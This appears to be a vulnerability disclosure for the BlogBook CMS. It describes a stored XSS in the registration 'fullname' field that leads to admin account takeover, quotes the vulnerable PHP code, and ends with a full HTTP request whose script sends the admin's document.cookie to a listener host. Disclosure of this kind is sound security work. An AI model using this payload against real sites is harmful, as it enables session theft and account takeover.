


# BlogBook Stored XSS in User Registration via fullname Parameter Leading to Admin Account Takeover

**Exploit Title: BlogBook Stored XSS in User Registration via fullname Parameter Leading to Admin Account Takeover**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A stored Cross-Site Scripting (XSS) vulnerability exists in the BlogBook application, exploitable through the user registration process and triggered within the admin panel. The application fails to adequately sanitize user-supplied input for the fullname parameter during new user account creation. Consequently, an attacker can register an account with malicious JavaScript code embedded in their fullname field. This malicious script is then stored in the application's database (as user_firstname).

The XSS payload is executed when an administrator or any privileged user navigates to the /admin/users.php page, which displays a list of registered users including their first names. The unsanitized user_firstname (containing the attacker's payload) is rendered directly on this page, causing the script to run in the administrator's browser.

This vulnerability was successfully exploited to steal session cookies (e.g., PHPSESSID) from an administrator viewing the /admin/users.php page. With the stolen administrator session cookie, an attacker can hijack the administrator's session, gaining full administrative control over the BlogBook application. This allows for unauthorized data access, modification, user impersonation, and potentially further system compromise.

## Vulnerability Point

`blogbook-main/register_script.php:7`

## Vulnerable Parameter

`fullname`

## Vulnerable Code

```php
<?php
include "includes/db.php";

$username = $_POST['username'];
$email = $_POST['email'];
$password = $_POST['password'];
$fullname = $_POST['fullname'];

$username = mysqli_real_escape_string($connection, $username);
$email = mysqli_real_escape_string($connection, $email);
$password = mysqli_real_escape_string($connection, $password);
$fullname = mysqli_real_escape_string($connection, $fullname);

$password = base64_encode($password);

$response['status'] = 'error';
$response['msg'] = 'Error';

$check_user_sql = "SELECT username FROM users WHERE username='$username'";
$check_user_query = mysqli_query($connection, $check_user_sql);

// check if user already exists
if ($check_user_query->num_rows) {
    $response['status'] = 'error';
    $response['msg'] = 'Username already exists!';
} else {
    $query = "INSERT INTO users(user_firstname,username,user_email,user_password,user_role) ";
    $query .= "VALUES('{$fullname}','{$username}','{$email}','{$password}','new')";
    $register_user_query = mysqli_query($connection, $query);

    if ($register_user_query) {
        $response['status'] = 'success';
        $response['msg'] = 'Registered Successfully! We will contact you soon!';
    } else {
        $response['status'] = 'error';
        $response['msg'] = 'Error occured. Please try again later!';
    }
}

// send responnse as json data
echo json_encode($response);
exit;
```
## Payload

```
POST /register_script.php HTTP/1.1
Host: localhost
Content-Length: 227
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: */*
sec-ch-ua: "Chromium";v="136", "Microsoft Edge";v="136", "Not.A/Brand";v="99"
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua-mobile: ?0
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=exec2&email=2@2.com&password=123&fullname=<script>
++var+img+%3d+new+Image()%3b
++var+cookieData+%3d+document.cookie%3b
++img.src+%3d+"http%3a//localhost%3a8000/%3fc%3d"+%2b+cookieData%3b
</script>&create_comment=1
```




